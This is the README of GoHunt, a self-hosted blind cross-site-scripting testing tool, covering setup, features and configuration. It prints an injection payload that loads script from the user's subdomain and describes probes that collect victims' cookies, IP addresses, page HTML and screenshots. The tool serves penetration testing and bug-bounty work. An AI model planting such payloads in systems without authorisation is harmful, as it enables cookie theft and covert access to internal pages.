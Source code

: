 # GoHunt

A revival of [XSSHunter](https://github.com/mandatoryprogrammer/xsshunter), `GoHunt` brings all your favorite `XSSHunter` functionality. Plus quality of life improvements!

![image](https://github.com/user-attachments/assets/310053ad-0d92-42bc-ae72-fa439e567373)

![image](https://github.com/user-attachments/assets/3dd8a917-b313-4c34-929d-4df67c648c31)

![image](https://github.com/user-attachments/assets/d2a48ad0-cf17-48a6-a58b-055432efcb8c)

![image](https://github.com/user-attachments/assets/14bd78dd-9938-43ef-919a-0c1b87e5241c)


Main changes:
- Single golang binary or docker deployment
- Additional notification methods 
- Bulk deletion/editing 
- Single Sign on


## Requirements
* A domain name
* Docker/Podman
* Ability to set DNS records

## Setup

Set a wildcard DNS record to your GoHunt instance
```sh
example.com A <YOUR INSTANCE IP>
*.example.com CNAME example.com
```

Create an `.env` file, you can use the `.env.dev` as a template.
```sh
DOMAIN=localhost:8081
GOHUNT_USERNAME=test
DB_PASSWORD=averystrongpassword
#GOHUNT_PASSWORD=yourstrongpasswordhere (optional)
```

Remember to set your `DOMAIN`!

Start the `docker-compose.yaml`:
```sh
docker compose -f docker-compose.yaml up -d
```

Thats it!

## Summary of Functionality
*Upon signing up you will create a subdomain such as `yoursubdomain.example.com` which identifies your XSS vulnerabilities and hosts your payload. You then use this subdomain in your XSS testing, using injection attempts such as `"><script src=//yoursubdomain.example.com></script>`. GoHunt will automatically serve up XSS probes and collect the resulting information when they fire.*

## Features
* **Single Sign-on** GoHunt supports OIDC for logging in to your service
* **User Management** Admin users can update and edit user records
* **Managed XSS payload fires**: Manage all of your XSS payloads in your GoHunt account's control panel, including bulk deleting
* **Powerful XSS Probes**: The following information is collected everytime a probe fires on a vulnerable page:
    * The vulnerable page's URI 
    * Origin of Execution 
    * The Victim's IP Address 
    * The Page Referer 
    * The Victim's User Agent 
    * All Non-HTTP-Only Cookies 
    * The Page's Full HTML DOM 
    * Full Screenshot of the Affected Page 
    * Responsible HTTP Request (If an GoHunt compatible tool is used) 
* **Full Page Screenshots**: GoHunt probes utilize the HTML5 canvas API to generate a full screenshot of the vulnerable page which an XSS payload has fired on. With this feature you can peak into internal administrative panels, support desks, logging systems, and other internal web apps. This allows for more powerful reports that show the full impact of the vulnerability to your client or bug bounty program.
* **XSS Payloads Fire Notifications**: XSS payload fires also send out **webhooks** or **email** notifications, your choice!
* **Automatic Payload Generation**: GoHunt automatically generates XSS payloads for you to use in your web application security testing.
* **Correlated Injections**: Perhaps the most powerful feature of GoHunt is the ability to correlated injection attempts with XSS payload fires. By using an [GoHunt/XSSHunter compatible testing tool](https://github.com/mandatoryprogrammer/xsshunter_client) you can know immediately what caused a specific payload to fire (even weeks after the injection attempt was made!).
* **Option PGP Encryption for Payload Emails**: Extra paranoid? Client-side PGP encryption is available which will encrypt all injection data in the victim's browser before sending it off to the GoHunt service.
* **Page Grabbing**: Upon your XSS payload firing you can specify a list of relative paths for the payload to automatically retrieve and store. This is useful in finding other vulnerabilities such as bad `crossdomain.xml` policies on internal systems which normally couldn't be accessed.
* **Secondary Payload Loading**: Got a secondary payload that you want to load after GoHunt has done it's thing? GoHunt offers you the option to specify a secondary JavaScript payload to run after it's completed it's collection.
* **Confidential Mode**: Dont want to send any details with your notifications? To be safe, this option only means you get notification and no details to your **slack**, **discord**, or email inbox

## Advanced

### Using alternative reverse proxies

GoHunt requires the `X-Forwarded-Proto` and `X-Forwarded-For` headers if running behind a reverse proxy. 
Caddy, by default sends these headers. 
To parse `X-Forwarded-For` GoHunt also needs to be configured with how many proxies are in-front of your instance, so please set `number_proxies` in the yaml config, or the `NumberProxies` environment variable

## Environment variables

Here is the list of environment variables that gohunt takes. 
Please read the `Using config file` section for each environment variable purpose.

`Domain`  
`ListenAddress`  
`NumberProxies`  
`Features.Signup.Enabled`  
`Features.Oidc.Enabled`  
`Features.Oidc.PublicURL`  
`Features.Oidc.IssuerURL`  
`Features.Oidc.ClientID`  
`Features.Oidc.ClientSecret`  
`Features.Oidc.AdminGroupClaimName`  
`Features.Oidc.AdminGroup`  
`Notification.SMTP.Enabled`  
`Notification.SMTP.Host`  
`Notification.SMTP.Port`  
`Notification.SMTP.Username`  
`Notification.SMTP.Password`  
`Notification.SMTP.FromEmail`  
`Notification.Webhooks.Enabled`  
`Notification.Webhooks.SafeDomains`  
`Notification.Confidential`  
`Database.Host`  
`Database.Port`  
`Database.User`  
`Database.DBname`  
`Database.SSLmode`  
`Database.Password`  


## Using config file

If you want to use a yaml config file instead of passing everything via `ENV` variables, use the `config.yaml.example` as a template, and add the following to your docker compose in the `gohunt` section:

```yaml
volumes:
    - ./config.yaml:/config/config.yaml:ro
```

The following is all the configuration options and their purpose:
```yaml
domain:         (string) Your gohunt instance domain (add port if not default 443/80)
listen_address: (string) The ip:port combination start the golang http server on
number_proxies: (int)    Used to parse X-Forwarded-For
features: 
  signup:
      enabled: (bool) Enable or disable account creation
  oidc:
   enabled:                (bool)   Enable or disable OIDC SSO integration
   public_url:             (string) URL of Gohunt instance (option can be determined from domain)
   issuer_url:             (string) Identity provider URL
   client_id:              (string) OIDC Client ID
   client_secret:          (string) OIDC Client Secret
   admin_group_claim_name: (string) Claim with user groups in it (optional)
   admin_group_name:       (string) Group that indicates user should be administrator of instance (optional)

  notification:
    confidential:   (bool) Whether to add xss vulnerablity details to notification
    smtp:
      enabled:      (bool)   Enable or disable sending notifications via SMTP
	  host:         (string) Host domain/ip
	  port:         (int)    Port
	  username:     (string) Mailing username
	  password:     (string) Mailing password
	  from:         (string) The sending email address
    webhooks:
      enabled:      (bool) Enable or disable sending notifications via webhooks
      safe_domains: (string array) List of domains that are safe to send to, defaults to [discord.com, slack.com]

  database:
	  host:     (string) Host domain/ip
	  port:     (string) Port
	  user:     (string) Database user
      password: (string) Database user password
	  dbname:   (string) Which database to use
	  sslmode:  (string) postgres sslmode
```
